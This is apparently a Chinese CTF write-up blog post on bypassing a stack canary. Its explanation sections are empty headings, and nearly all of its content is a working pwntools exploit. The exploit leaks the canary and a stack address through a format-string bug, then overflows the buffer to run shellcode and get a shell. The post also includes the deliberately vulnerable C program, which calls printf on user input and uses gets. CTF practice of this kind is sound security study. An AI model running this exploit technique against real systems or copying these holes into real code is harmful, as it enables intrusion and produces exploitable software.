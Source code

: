 ```yaml
---
layout:     post
title:      fmt_bypass_canary
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
    - leak_info
---
```




## 所需环境

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida





## 分析过程





## 解题思路

思路



exp.py

```python
#!/usr/bin/env python

from pwn import *

remote_is = 1

if remote_is == 1 :
    sh = remote('127.0.0.1', 4444)
else:
    sh = process('./pwn1')

shellcode = asm(shellcraft.sh())

sh.recvuntil('please enter your name:')
sh.sendline('%p.%31$p.%34$p.%p')#trace printf
#sh.recv()
leak_data = sh.recv()
address = leak_data.split('.')
print address

canary_addr = address[1]
print 'canary_addr : %s' % canary_addr

stack_addr = address[2]
print 'stack_addr : %s' % stack_addr

shellcode_addr = int(stack_addr,16)-0x88#print_str address

sh.sendline('a'*100 + p32(int(canary_addr,16)) + 'b'*12 + p32(shellcode_addr) + shellcode)

sh.interactive()
```



fmt_bypass_canary.c

```c
#include <stdio.h>

#include <unistd.h>


void get_message(char *name);

int volatile main()
{
    setbuf(stdout, 0);

    char name[100];

    printf("please enter your name:");

    gets(name);
    printf("Welcome to participate the 429 ctf!\n");

    get_message(name);

    printf("thank you!\n");

    return 0;
}

void get_message(char * name)
{
    char message[100];
    printf(name);
    printf(", can you leave me some messages:");
    gets(message);
}
```



## 总结



